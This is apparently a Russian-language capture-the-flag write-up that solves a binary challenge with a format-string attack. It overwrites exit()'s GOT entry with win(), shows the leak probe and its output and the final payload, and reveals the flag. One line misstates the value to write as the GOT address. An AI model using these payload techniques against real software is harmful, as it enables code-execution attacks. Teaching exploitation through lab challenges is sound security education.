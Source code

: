 # Ложа Тульского пряника

## Условие

Ежегодно на нашу пряничную ярмарку приезжает Тайная Пряничная Ложа, они собираются в самом дальнем шатре.

Если хотите туда попасть, то вам нужно знать пароль. И нет, это не пряник и не самовар. Так что удачи вам попытать счастье.

Дам подсказку, в начале поприветствуете фразой 
>The well-known GingerbreadHub site


## Решение

Декомпилируем файл, видим функцию win, в которой присутствует наш необходимый флаг. Необходимо перенаправить поток выполнения программы. Для этого надо будет перезаписать адрес exit() в GOT адресом win() . Здесь есть 4 шага:
* Найдем адрес win()
* Найдем адрес exit() в GOT
* Найдем смещение нашей строки в стеке
* Напишем правильную строку эксплойта

В начале найдем адреса функции exit - 0x0804b2a0 
> objdump -R ClubPryanikaFlag

Теперь найдем адреса функции win - 0x080491a6
> objdump -t ClubPryanikaFlag | grep win

Теперь, что касается позиции нашей строки, это четвертый параметр в стеке:
> AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
> AAAA00000200.f7e1e620.080491e3.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.

Итак, наш эксплойт будет выглядеть так:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%<val1>x%4$hn%<val2>x%5$hn

Нам нужно вычислить значение, исходя из того, что нам нужно написать 0x0804b2a0:
    Младшие байты = 91a6 (37286 в десятичном формате).
    Старшие байты = 0804 (2052 в десятичном формате).
Однако старший байт уступает младшему, поэтому сначала мы напишем старший. Нам просто нужно инвертировать адреса, куда мы хотим писать:
    Старшие байты = 0804 (2052 в десятичном формате). Минус 8 байт для адресов = 2044.
    Младшие байты = 91a6 (37286 в десятичном формате). Минус 2052 байта, которые мы уже написали = 35234.

Вот эксплойт, который нужно вести во второй ввод:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%2044x%4$hn%35234x%5$hn

Для более подробного изучения рекомендую почитать статьи на тему "Exploit 101 - Format Strings"

## Flag 
```TulaCTF{Da_Zdravstvuet_Tula_Da_Zdravstvuet_71}```



